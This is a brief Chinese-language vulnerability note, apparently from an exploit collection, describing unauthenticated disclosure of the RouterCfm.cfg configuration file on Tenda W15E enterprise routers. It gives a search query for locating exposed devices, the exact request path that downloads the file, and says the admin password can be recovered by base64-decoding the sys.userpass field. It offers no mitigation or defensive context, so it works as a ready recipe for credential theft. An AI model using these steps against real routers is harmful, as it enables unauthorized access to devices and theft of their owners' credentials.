

# Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面



访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```


后台账号密码位于参数 `sys.userpass` base64解密后的字符


